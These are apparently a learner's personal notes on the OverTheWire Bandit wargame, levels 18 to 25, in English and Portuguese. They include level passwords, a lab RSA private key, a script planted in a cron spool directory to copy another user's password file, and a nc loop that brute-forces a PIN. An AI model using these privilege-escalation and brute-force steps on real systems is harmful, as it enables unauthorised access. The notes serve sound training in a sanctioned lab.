Got the 'Byebye'.

Checking out the next Bandit, as instructed.
*** 18

I was being automatically disconnected from the server because there was a directive in ~.bashrc~ for that:

#+begin_quote
someone has modified .bashrc to log you out when you log in with SSH.
#+end_quote

Then I found out that I can run a command via SSH, and that it may run before Bash did his stuff:

#+begin_quote
When you connect via SSH and specify a command to execute directly (e.g., ssh user@host "ls -l"), a non-interactive shell is often used, and your ~/.bashrc or ~/.profile might not be fully sourced, depending on the shell and the command.
#+end_quote

I did this (intructions told about ~readme~):

#+begin_src shell
ssh bandit.labs.overthewire.org -p 2220 -l bandit18 "cat readme"
#+end_src

cGWpMaKXVwDUNgPAVJbWYuGHVn9zl3j8

**** 19

A princípio fiquei confuso.
Achei que o programa iria /modificar/ o proprietário do arquivo com a senha.

Quando rodei o comando para saber o que fazer (conforme instruído), recebi a seguinte saída:

#+begin_src shell
bandit19@bandit:~$ ./bandit20-do
Run a command as another user.
  Example: ./bandit20-do id
#+end_src

Eu não li a primeira linha da saída e achei que tinha que descobrir o meu ~id~ numérico do user ~bandit19~, pra daí usar o comando para setar esse usuário como proprietário do arquivo com a senha.

Depois eu acabei rodando o comando de novo e li a primeira linha.
Daí rodei:

#+begin_src shell
bandit19@bandit:/etc/bandit_pass$ ~/bandit20-do cat bandit20
#+end_src

e obtive a senha:

0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO

O executável ~bandit20-do~ foi setado com o user bandit20 e o meu grupo.

#+begin_src shell
bandit19@bandit:~$ stat bandit20-do
  File: bandit20-do
  Size: 14884           Blocks: 32         IO Block: 4096   regular file
Device: 259,1   Inode: 577828      Links: 1
Access: (4750/-rwsr-x---)  Uid: (11020/bandit20)   Gid: (11019/bandit19)
                           ^^^         ^^^^^^^^    ^^^         ^^^^^^^^
Access: 2025-10-10 17:14:19.958793247 +0000
Modify: 2025-08-15 13:16:01.732011756 +0000
Change: 2025-08-15 13:16:01.734011763 +0000
 Birth: 2025-08-15 13:16:01.731011751 +0000
#+end_src

Como eu faço parte do grupo do arquivo, eu posso executá-lo e como ele é do 20, eu posso ler o arquivo da próxima senha, que é dele.
*** 20

0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO

#+begin_quote
There is a setuid binary in the homedirectory that does the following:
#+end_quote

The "setuid binary" is ~suconnect~:

#+begin_example
bandit20@bandit:~$ ls -lah
total 36K
drwxr-xr-x   2 root     root     4.0K Aug 15 13:16 .
drwxr-xr-x 150 root     root     4.0K Aug 15 13:18 ..
-rw-r--r--   1 root     root      220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root     root     3.8K Aug 15 13:09 .bashrc
-rw-r--r--   1 root     root      807 Mar 31  2024 .profile
-rwsr-x---   1 bandit21 bandit20  16K Aug 15 13:16 suconnect

bandit20@bandit:~$ stat suconnect
  File: suconnect
  Size: 15608           Blocks: 32         IO Block: 4096   regular file
Device: 259,1   Inode: 577830      Links: 1
Access: (4750/-rwsr-x---)  Uid: (11021/bandit21)   Gid: (11020/bandit20)
Access: 2025-10-10 17:04:06.585772107 +0000
Modify: 2025-08-15 13:16:02.922063839 +0000
Change: 2025-08-15 13:16:02.923016449 +0000
 Birth: 2025-08-15 13:16:02.921016442 +0000
#+end_example

#+begin_quote
- it makes a connection to localhost on the port you specify as a commandline argument.
- It then reads a line of text from the connection and compares it to the password in the previous level (bandit20).
- If the password is correct, it will transmit the password for the next level (bandit21).
#+end_quote

Now, I am not sure if it
1. /connects/ to an existing connection.
2. /creates/ a new connection, or if it just

Let us try first to connect to an existing connection.
We get a list of the ports---the "simple" way:

#+begin_example
bandit20@bandit:~$ nmap localhost
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 16:21 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
1111/tcp  open  lmsocialserver
1840/tcp  open  netopia-vo2
4321/tcp  open  rwhois
8000/tcp  open  http-alt
30000/tcp open  ndmps
50001/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
#+end_example

For the bandit19 user is the same:

#+begin_example
bandit19@bandit:~$ nmap localhost
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 16:18 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
1111/tcp  open  lmsocialserver
1840/tcp  open  netopia-vo2
4321/tcp  open  rwhois
8000/tcp  open  http-alt
30000/tcp open  ndmps
50001/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
#+end_example

I tried connecting both ~suconnect~ and ~telnet~ to port 1111 (has "social" in the name); suconnect with '&'; and then send the password through telnet.
I expect to receive an answer from suconnect, because it is in the same "chat".

#+begin_src shell
telnet 1111 &
telnet 1111
Hello, there!
#+end_src

I didn't get the message to be echoed on the screen, as I expected.
It says something like "job /stopped/"; I wonder if I need to keep it running in the background.

Let's try a different port: 30000.

#+begin_src shell
bandit20@bandit:~$ ./suconnect 30000 &
[1] 69995
bandit20@bandit:~$ telnet localhost 30000
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
Wrong! Please enter the correct current password.
Connection closed by foreign host.
#+end_src

I believe this is the same guy from a previous Bandit.
Let's test it.
That Bandit is 14.
Let's re-run it:

#+begin_src shell
bandit20@bandit:~$ telnet localhost 30000
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
MU4VWeTyJk8ROof1qqmcBPaLh7lDCPvS
Correct!
8xCjnmgoKbGLhHFAZlGE5Tmu4M2tKJQo

Connection closed by foreign host.
#+end_src

Yep!
It is the same, and it works for the user bandit20 too.

Apparently, two processes cannot listen to the same port (usually).
I'll try running suconnect as a daemon, and telnet as a Client.
I need a port.

These are all the ports available:

|          | bandit20@bandit:~$ nmap -p 0-65535 localhost                       |
|          | Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 17:37 UTC |
|          | Nmap scan report for localhost (127.0.0.1)                         |
|          | Host is up (0.000097s latency).                                    |
|          | Not shown: 65506 closed tcp ports (conn-refused)                   |
| WORKS?   | PORT      STATE SERVICE                                            |
|          | 22/tcp    open  ssh                                                |
|          | 1111/tcp  open  lmsocialserver                                     |
|          | 1840/tcp  open  netopia-vo2                                        |
|          | 2220/tcp  open  netiq                                              |
|          | 2221/tcp  open  rockwell-csp1                                      |
|          | 2223/tcp  open  rockwell-csp2                                      |
|          | 2224/tcp  open  efi-mg                                             |
|          | 2225/tcp  open  rcip-itu                                           |
|          | 2226/tcp  open  di-drm                                             |
|          | 2227/tcp  open  di-msg                                             |
|          | 2228/tcp  open  ehome-ms                                           |
|          | 2230/tcp  open  queueadm                                           |
|          | 2231/tcp  open  wimaxasncp                                         |
|          | 2232/tcp  open  ivs-video                                          |
|          | 4091/tcp  open  ewinstaller                                        |
|          | 4258/tcp  open  vrml-multi-use                                     |
|          | 4321/tcp  open  rwhois                                             |
|          | 5842/tcp  open  reversion                                          |
|          | 8000/tcp  open  http-alt                                           |
| bandit14 | 30000/tcp open  ndmps                                              |
| n        | 30001/tcp open  pago-services1                                     |
| bandit25 | 30002/tcp open  pago-services2                                     |
|          | 31046/tcp open  unknown                                            |
|          | 31518/tcp open  unknown                                            |
|          | 31691/tcp open  unknown                                            |
|          | 31790/tcp open  unknown                                            |
|          | 31960/tcp open  unknown                                            |
|          | 50001/tcp open  unknown                                            |
|          | 51790/tcp open  unknown                                            |
|          | 60917/tcp open  unknown                                            |

Given that bandit15 uses port 30000, and bandit25 uses port 30002, I bet the port I need for this Bandit is 30001.

I tried first running succonect on the background and sending the password via nc.
But it closes the connection.

#+begin_example
bandit20@bandit:~$ ./suconnect 30001 &
[1] 290352

bandit20@bandit:~$ nc localhost 30001
0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
bandit20@bandit:~$                       <--- It closes the connection
#+end_example

I tried using ~screen~ to run the daemon, and another session to connect to it.

I created a dedicated session for ~suconnect~:

#+begin_src shell
screen -S suconnect
#+end_src

Then I started the ~suconnect~ daemon.

#+begin_src shell
./suconnect 30001
#+end_src

Then I detached the screen session with ~C-a d~.

Then I connected and sent the password using ~nc~.

#+begin_src shell
nc localhost 30001
#+end_src

I was disconnected, as expected.

Then I reattached to the ~screen~ running ~suconnect~ with

#+begin_src shell
screen -x suconnect
#+end_src

I expected to see the next password as the output there, but there was no output.

Future me: up until now, I had tried:
- ~suconnect~ as the daemon
  - using already opened ports

| Daemon    | Open new port | Use existing port |
|-----------+---------------+-------------------|
| suconnect |               | Doesn't work      |
| nc        |               |                   |

I tried connecting with ~suconnect~ to every port in the interval 0--65535.
It connected to some, but I couldn't tell if it was connecting to an open port or opening a new port.

Then I came across [[https://stackoverflow.com/a/79726454][this answer on Stackoverflow]] that teaches hot to solve it.
According to this answer, ~nc~ will be the daemon, and ~suconnect~ will be the client.
The answer instructs to use the parameters ~-lnvp~ for ~nc~.

I first tried to use port 30001.

#+begin_example
bandit20@bandit:~$ nc -lnvp 30001
nc: Address already in use
#+end_example

Then I tried a port not reported by ~nmap~ above.

#+begin_example
bandit20@bandit:~$ nc -lnvp 30003
Listening on 0.0.0.0 30003
#+end_example

Then I dettached and attached to ~suconnect~'s ~screen~.
I started ~suconnect~ there using the same port.

#+begin_src shell
./suconnect 30003
#+end_src

No output.

Back on ~nc~'s screen, I got the message of a received connection, probably from ~suconnect~.

#+begin_example
Connection received on 127.0.0.1 54356
#+end_example

I then sent the current password, and got the next one as a reply.

#+begin_example
0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
EeoULMCra2q0dSkYj561DX7s1CpBuOBt
#+end_example

Back on ~suconnect~'s ~screen~:

#+begin_example
Read: 0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
Password matches, sending next password
#+end_example

After reading this from ~man lc~:

#+begin_example
-l      Listen for an incoming connection rather than initiating a con‐
        nection to a remote host.  The destination and port to listen on
        can be specified either as non-optional arguments, or with op‐
        tions -s and -p respectively.  Cannot be used together with -x or
        -z.  Additionally, any timeouts specified with the -w option are
        ignored.
#+end_example

I tried with just ~nc -l~, and it worked the same.

I also tried still using ~nc~ as the daemon, but without any parameter.

#+begin_example
bandit20@bandit:~$ nc 30003
nc: missing port number
#+end_example

Then with the host.

#+begin_example
bandit20@bandit:~$ nc localhost 30003
bandit20@bandit:~$
#+end_example

Apparently it did not create a connection.
I still tried starting ~suconnect~.

#+begin_example
bandit20@bandit:~$ ./suconnect 30003
Could not connect
#+end_example

This shows that it needs the ~-l~ parameter.

I looked at the manpage for the meaning of the ~nvp~ parameters.

#+begin_example
-n      Do not perform domain name resolution.  If a name cannot be re‐
        solved without DNS, an error will be reported.
#+end_example

I don't see why this would affect the command, as no host was used.

#+begin_example
-v      Produce more verbose output.
#+end_example

Non-essential.

#+begin_example
-p source_port
        Specify the source port nc should use, subject to privilege re‐
        strictions and availability.
#+end_example

Why does it work witout specifying 30003 as a /port/ with ~p~?
The only mandatory parameter so far is ~l~, which needs a destination and port.

From the manpage:

#+begin_example
In general, a destination must be specified, unless the -l option is given (in which case the local host is used).
#+end_example

Now, the only mandatory parameter is the port, so there is no reason to make ~-p~ mandatory.

EeoULMCra2q0dSkYj561DX7s1CpBuOBt
*** 21

#+begin_quote
A program is running automatically at regular intervals from cron, the time-based job scheduler.
Look in /etc/cron.d/ for the configuration and see what command is being executed.
#+end_quote

The files in ~/etc/cron.d/~ are:

#+begin_example
bandit21@bandit:/etc/cron.d$ ls -lah
total 60K
drwxr-xr-x   2 root root 4.0K Aug 15 13:19 .
drwxr-xr-x 128 root root  12K Aug 29 21:51 ..
-r--r-----   1 root root   47 Aug 15 13:16 behemoth4_cleanup
-rw-r--r--   1 root root  123 Aug 15 13:09 clean_tmp
-rw-r--r--   1 root root  120 Aug 15 13:16 cronjob_bandit22
-rw-r--r--   1 root root  122 Aug 15 13:16 cronjob_bandit23
-rw-r--r--   1 root root  120 Aug 15 13:16 cronjob_bandit24
-rw-r--r--   1 root root  201 Apr  8  2024 e2scrub_all
-r--r-----   1 root root   48 Aug 15 13:17 leviathan5_cleanup
-rw-------   1 root root  138 Aug 15 13:17 manpage3_resetpw_job
-rwx------   1 root root   52 Aug 15 13:19 otw-tmp-dir
-rw-r--r--   1 root root  102 Mar 31  2024 .placeholder
-rw-r--r--   1 root root  396 Jan  9  2024 sysstat
#+end_example

To get the file contents I used ~cat~:

#+begin_example
bandit21@bandit:/etc/cron.d$ find . -exec echo {} \; -exec cat {} \; -exec echo "" \;
#+end_example

This guy is the most suspicious one.

#+begin_example
./sysstat
# The first element of the path is a directory where the debian-sa1
# script is located
PATH=/usr/lib/sysstat:/usr/sbin:/usr/sbin:/usr/bin:/sbin:/bin

# Activity reports every 10 minutes everyday
5-55/10 * * * * root command -v debian-sa1 > /dev/null && debian-sa1 1 1

# Additional run at 23:59 to rotate the statistics file
59 23 * * * root command -v debian-sa1 > /dev/null && debian-sa1 60 2
#+end_example

#+begin_quote
# The first element of the path is a directory where the debian-sa1
# script is located
#+end_quote

The contents of "the first element of the path", ~/usr/lib/sysstat/~, are:

#+begin_example
bandit21@bandit:/usr/lib/sysstat$ alias ls='ls -lah'
bandit21@bandit:/usr/lib/sysstat$ ls
total 104K
drwxr-xr-x  2 root root 4.0K Jul 31 10:05 .
drwxr-xr-x 86 root root 4.0K Aug 15 13:10 ..
-rwxr-xr-x  1 root root  446 Jan  9  2024 debian-sa1
-rwxr-xr-x  1 root root 1.8K Jan  9  2024 sa1
-rwxr-xr-x  1 root root 1.6K Jan  9  2024 sa2
-rwxr-xr-x  1 root root  82K Jan  9  2024 sadc
#+end_example

It didn't take anywhere interesting.

After some fiddling around:

#+begin_example
bandit21@bandit:~$ cat /cat /usr/bin/cronjob_bandit22.sh
cat: /cat: No such file or directory
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
#+end_example

The passwords are in those ~/etc/bandit_pass/banditXX~ files.
This cron job is copying the password I need, ~bandit22~'s, to a temp file.
To see it, I did:

#+begin_example
bandit21@bandit:~$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q
#+end_example

and voilà:

tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q
*** 22

#+begin_quote
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.
#+end_quote

The contents of ~/etc/cron.d/~ should be the same.
I'll start by investigating ~bandit22~'s script.
This is the job for the bandit:

#+begin_example
bandit22@bandit:/etc/cron.d$ cat cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
​* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
#+end_example

and this is the contents of that script:

#+begin_example
bandit22@bandit:/etc/cron.d$ cat  /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
#+end_example

It uses the username ~bandit24~ (that would be gotten from ~whoami~) to create a target filename in a somewhat sophisticated process involving ~mdsum~.

I simulate the results of that command to get the script's real target:

#+begin_example
bandit22@bandit:/etc/cron.d$ myname=bandit23; mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
bandit22@bandit:/etc/cron.d$ echo $mytarget
8ca319486bfbbc3663ea0fbe81326349
#+end_example

Then I use that to ~cat~ the password from that target file:

#+begin_example
bandit22@bandit:/etc/cron.d$ cat /tmp/$mytarget
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
#+end_example

Password obtained.

0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
*** 23

#+begin_example
A program is running automatically at regular intervals from cron, the time-based job scheduler.
Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script.
This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

Commands you may need to solve this level

chmod, cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#+end_example

I go straight to ~bandit24~'s script:

#+begin_example
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
----------------------------------------------------------------------
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
#+end_example

I analyze it piece by piece:

#+begin_example
myname=$(whoami)
#+end_example

Sets ~myname~ to ~bandit24~.

#+begin_example
cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        <<process each file>>
    fi
done
#+end_example

It processes each file in ~/var/spool/bandit24/foo~.
I tried reading the contents of that directory, but got ~Permission denied.~

The processing of each file occurs as follows:

~<<process each file>> +≡~

#+begin_src x :noweb-ref process each file
echo "Handling $i"
owner="$(stat --format "%U" ./$i)"
if [ "${owner}" = "bandit23" ]; then
    timeout -s 9 60 ./$i
fi
rm -f ./$i
#+end_src

It runs /my/ scripts inside ~/var/spool/bandit24/foo~.
I will try to inject a script there that somehow gives me ~bandit24~'s password.

#+begin_src shell
#!/bin/bash
MY_PASS_FILE=/etc/bandit_pass/bandit24
TARGET=zoiaum

cat ${MY_PASS_FILE} > ${TARGET}
cp ${TARGET} /tmp
#+end_src

I created a file ~/tmp/zoinho.sh~, ~chmod +x~ it, and copied it to ~/var/spool/bandit24/foo~.
Then after typing this, I went to check if I got the password.

#+begin_example
bandit23@bandit:/tmp$ cat zoiaum
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
#+end_example

That file was created by ~bandit24~, and I was curious /why/ I have permission to /read/ it.
I ran a ~stat~ on it:

#+begin_example
bandit23@bandit:/tmp$ stat zoiaum
  File: zoiaum
  Size: 33              Blocks: 8          IO Block: 4096   regular file
Device: 259,1   Inode: 87017       Links: 1
Access: (0664/-rw-rw-r--)  Uid: (11024/bandit24)   Gid: (11024/bandit24)
Access: 2025-10-11 21:55:30.532352401 +0000
Modify: 2025-10-11 21:55:01.567169570 +0000
Change: 2025-10-11 21:55:01.567169570 +0000
 Birth: 2025-10-11 21:55:01.565351402 +0000
#+end_example

I can see that, the file was created with read permission for everybody, and that is why I am allowed to read it.

gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
*** 24

#+begin_quote
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode.
There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time
#+end_quote

I try first to connect with ~nc~ to port 30002.

#+begin_quote
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
#+end_quote

Ok, separate password and pincode by a space.

I go to the manpage for ideas on how to bruteforce it without creating new connections each time.

#+begin_example
nc localhost 30002 << EOF
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0001
EOF
#+end_example

This works, but I would have to create a huge input string with all the possible combinations.
Can I do it programatically?
Back to the manpage.

Couldn't find any way to build the combinations programatically without having to create a file.

My first idea was to use ~yes~ to create copies of the password, then ~seq~ for the pin codes, then another command to concatenate them in columns, and pass it to ~nc~'s connection to port 30002.

I could not find a command to concatenate the columns on Info coreutils.

Then googling I stumbled upon ~COMMAND | while read LINE; do echo $LINE~.

It works like this: ~COMMAND | while PREDICATE; BODY;~.
The redirection with | gives COMMAND's output to ~while~.
~while~ consumes that output one line per iteration.
PREDICATE is evaluated once per iteration.
In this case, it is the result of ~read LINE~.
~read~ is programmed to assign the value of its input to the variable LINE.
~read~ makes that line accessible via $LINE.
Note that it could be any other name, instead of "LINE"---it is just a variable name.

I saw that I could use this to concatenate the password with the pin codes with:

#+begin_example
seq -w 0 9999 | while read i; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002
#+end_example

I ran it in the server.

#+begin_example
bandit24@bandit:~$ seq -w 0 9999 | while read i; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002

...

Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
#+end_example

I was curious to know the correct pin code.
I redirected the output to a file, and counted the lines of that file, then tried guessing some pin codes in that neighborhood.
I could have done some math :P

#+begin_example
seq -w 0 9999 | while read i; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002 > /tmp/tmp.kPTagzvdT7

bandit24@bandit:~$ wc -l /tmp/tmp.kPTagzvdT7
9166 /tmp/tmp.kPTagzvdT7

bandit24@bandit:~$ head /tmp/tmp.kPTagzvdT7
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
b

bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9164
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9163
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9162
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
#+end_example

The pincode is 9162.

iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
*** 25

#+begin_quote
Logging in to bandit26 from bandit25 should be fairly easy…
The shell for user bandit26 is not /bin/bash, but something else.
Find out what it is, how it works and how to break out of it.


Commands you may need to solve this level

ssh, cat, more, vi, ls, id, pwd
#+end_quote

There's a private key in bandit25's home dir:

[[file:~/.ssh/id_rsa_overthewire.org-bandit26][s~/.ssh/id_rsa_overthewire.org-bandit26]] ≡

#+begin_src ssh-key :tangle ~/.ssh/id_rsa_overthewire.org-bandit26
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEApis2AuoooEqeYWamtwX2k5z9uU1Afl2F8VyXQqbv/LTrIwdW
pTfaeRHXzr0Y0a5Oe3GB/+W2+PReif+bPZlzTY1XFwpk+DiHk1kmL0moEW8HJuT9
/5XbnpjSzn0eEAfFax2OcopjrzVqdBJQerkj0puv3UXY07AskgkyD5XepwGAlJOG
xZsMq1oZqQ0W29aBtfykuGie2bxroRjuAPrYM4o3MMmtlNE5fC4G9Ihq0eq73MDi
1ze6d2jIGce873qxn308BA2qhRPJNEbnPev5gI+5tU+UxebW8KLbk0EhoXB953Ix
3lgOIrT9Y6skRjsMSFmC6WN/O7ovu8QzGqxdywIDAQABAoIBAAaXoETtVT9GtpHW
qLaKHgYtLEO1tOFOhInWyolyZgL4inuRRva3CIvVEWK6TcnDyIlNL4MfcerehwGi
il4fQFvLR7E6UFcopvhJiSJHIcvPQ9FfNFR3dYcNOQ/IFvE73bEqMwSISPwiel6w
e1DjF3C7jHaS1s9PJfWFN982aublL/yLbJP+ou3ifdljS7QzjWZA8NRiMwmBGPIh
Yq8weR3jIVQl3ndEYxO7Cr/wXXebZwlP6CPZb67rBy0jg+366mxQbDZIwZYEaUME
zY5izFclr/kKj4s7NTRkC76Yx+rTNP5+BX+JT+rgz5aoQq8ghMw43NYwxjXym/MX
c8X8g0ECgYEA1crBUAR1gSkM+5mGjjoFLJKrFP+IhUHFh25qGI4Dcxxh1f3M53le
wF1rkp5SJnHRFm9IW3gM1JoF0PQxI5aXHRGHphwPeKnsQ/xQBRWCeYpqTme9amJV
tD3aDHkpIhYxkNxqol5gDCAt6tdFSxqPaNfdfsfaAOXiKGrQESUjIBcCgYEAxvmI
2ROJsBXaiM4Iyg9hUpjZIn8TW2UlH76pojFG6/KBd1NcnW3fu0ZUU790wAu7QbbU
i7pieeqCqSYcZsmkhnOvbdx54A6NNCR2btc+si6pDOe1jdsGdXISDRHFb9QxjZCj
6xzWMNvb5n1yUb9w9nfN1PZzATfUsOV+Fy8CbG0CgYEAifkTLwfhqZyLk2huTSWm
pzB0ltWfDpj22MNqVzR3h3d+sHLeJVjPzIe9396rF8KGdNsWsGlWpnJMZKDjgZsz
JQBmMc6UMYRARVP1dIKANN4eY0FSHfEebHcqXLho0mXOUTXe37DWfZza5V9Oify3
JquBd8uUptW1Ue41H4t/ErsCgYEArc5FYtF1QXIlfcDz3oUGz16itUZpgzlb71nd
1cbTm8EupCwWR5I1j+IEQU+JTUQyI1nwWcnKwZI+5kBbKNJUu/mLsRyY/UXYxEZh
ibrNklm94373kV1US/0DlZUDcQba7jz9Yp/C3dT/RlwoIw5mP3UxQCizFspNKOSe
euPeaxUCgYEAntklXwBbokgdDup/u/3ms5Lb/bm22zDOCg2HrlWQCqKEkWkAO6R5
/Wwyqhp/wTl8VXjxWo+W+DmewGdPHGQQ5fFdqgpuQpGUq24YZS8m66v5ANBwd76t
IZdtF5HXs2S5CADTwniUS5mX1HO9l5gUkk+h0cH5JnPtsMCnAUM+BRY=
-----END RSA PRIVATE KEY-----
#+end_src

#+begin_src shell
chmod 600 ~/.ssh/id_rsa_overthewire.org-bandit26
#+end_src

After preparations above, used it to ~ssh~ as bandit26.

It connects, but closes right away:

#+begin_example
  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
Connection to bandit.labs.overthewire.org closed.
#+end_example

I believe I must find out about what the shell for bandit26 is.

~.bash_logout~ has some "privacy-increasing" measures...

#+begin_example
# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy

if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
#+end_example

#+begin_example
bandit25@bandit:/home/bandit26$ /usr/bin/clear_console 
clear_console: terminal is not a console
#+end_example

Meh.

I could find out bandit26's login shell by looking at the default place: ~/etc/passwd~.

#+begin_example
bandit25@bandit:~$ cat /etc/passwd|grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
#+end_example

The contents of ~/usr/bin/showtext~ are:

#+begin_example
bandit25@bandit:~$ cat /usr/bin/showtext 
----------------------------------------------------------------------
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
#+end_example

Se eu peço para o ssh executar um comando ao final, tipo

ssh {host port user id_rsa, etc} /bin/bash

ele fica travado.

Acho que é isso que o enunciado se refere quando diz

#+begin_quote
Find out what it is, how it works and how to break out of it.
#+end_quote

1. What it is
   1. ~/usr/bin/showtext~
2. How it works
   1. It opens a text file, shows its content on the screen, and quits.
      1. It uses ~exec~, and this means
         1. This prevents access to the shell


O ~exec~ roda o comando por cima do /usr/bin/showtext.

O exec é um shell buit-in:

#+begin_example
(base) rafa@bach:~$ type -a exec
exec is a shell builtin
#+end_example

#+begin_example
(base) rafa@bach:~$ help exec
exec: exec [-cl] [-a name] [command [argument ...]] [redirection ...]
    Replace the shell with the given command.
    
    Execute COMMAND, replacing this shell with the specified program.
    ARGUMENTS become the arguments to COMMAND.  If COMMAND is not specified,
    any redirections take effect in the current shell.
    
    Options:
      -a name   pass NAME as the zeroth argument to COMMAND
      -c        execute COMMAND with an empty environment
      -l        place a dash in the zeroth argument to COMMAND
    
    If the command cannot be executed, a non-interactive shell exits, unless
    the shell option `execfail' is set.
    
    Exit Status:
    Returns success unless COMMAND is not found or a redirection error occurs.
(base) rafa@bach:~$ 
#+end_example

According to [[https://serverfault.com/a/823466][this answer on Server Fault]], all commands executed via ssh are actually executed by the login shell.
This would mean

ssh {connection stuff} ls

ssh {...} /usr/bin/showtext ls.

But /usr/bin/showtext does not deal with arguments in any way.
So I don't see how this could help me.


more accepts commands like vi

in vi, they come via stderr


this works for vi:

https://vi.stackexchange.com/a/44475
vim - <<< "Hello, World!" 2<<< ":w! file.txt | :q"

É pra mandar um Ctrl+Z enquanto o ~more~ ainda tá rodando.
Isso vai me dar o shell que o invocou.
Short-lived program
Difícil na mão.
Usar um programa: expect.
Precisa de um script.

[[file:~/hack/overthewire.org/bandit26.expect][~/hack/overthewire.org/bandit26.expect]] ≡

